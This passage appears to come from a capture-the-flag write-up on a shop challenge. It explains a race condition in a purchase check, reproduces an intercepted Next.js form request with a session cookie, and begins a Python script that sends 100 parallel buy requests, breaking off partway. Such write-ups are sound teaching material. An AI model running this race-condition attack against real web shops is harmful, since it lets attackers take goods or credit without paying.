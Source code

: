 ```javascript 
if (user?.money >= item.price) {
    addItem(item.name);
    setMoney(user?.money - item.price);
}
```
Here we can attack! If we buy the item multiple times at the same time the server will most likely create several threads which process the requests in parallel. If they all check if there is enough money at the same time the condition is true for all threads and `addItem()` is called several times.   
By intercepting the buy request we can see the structure of the buy request: 

```
POST / HTTP/2
Host: eptbox-shop-6.ept.gg
Cookie: token=6bd318e2c2ba1307c0088273c29ca03b
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGjANc28XpICtA0FU
Content-Length: 858

------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:2"

"JJHZ5DH3PLOVlBW8mxmNFgkU3ydXddlKGe5JrCL7FGzO3HF5Z5cUKuts61SGgcdNDdAVbKnvZyIqOkLHf7uAwWXL/gMUDQdNMfV9rmYDkn/zKHKkTeQUlZGNNKNS+LMjpvj+XyB6bZXWK3/lsnZ3/hwVTDAMWkhVWDgyhtf3OJaM3t8tqUp10nSUvTWv1mdY8qlUp98aATIDOWrXEatSShmPkellGUHlqigXYLWMShdQAJf6WxSiYTAT90zJEi8VbtTeOh+B0rtlEzTYq/n4H/O/2qY057YxmHw/csAH0WNUZH8uSQAjzJ+Wc5c28LYrWM5xPjrqJvOgxrFr9evG/aOErigm"
------WebKitFormBoundaryGjANc28XpICtA0FU--

```

As all item cards are created using a loop in NextJs. The different forms are identified through ids which change each time the page is requested. To attack this form we therefore need to request and extract the ids inside the attack script.

```py
import requests
import threading
from bs4 import BeautifulSoup

# Target URL
url = "https://eptbox-shop-6.ept.gg/items" 
cookie = {
    "token": "6bd318e2c2ba1307c0088273c29ca03b" #replace with right token
}
num_requests = 100
boundary = "----WebKitFormBoundary1qhWJBRoa05epOoB"

# Function to fetch items from the API
def fetch_items():
    try:
        response = requests.get(url=url, cookies=cookie)
        response.raise_for_status()  # Raise an error for bad responses
        soup = BeautifulSoup(response.text, 'html.parser')
        form = soup.find('form')     #find the first form (Buy button for Fun product)
```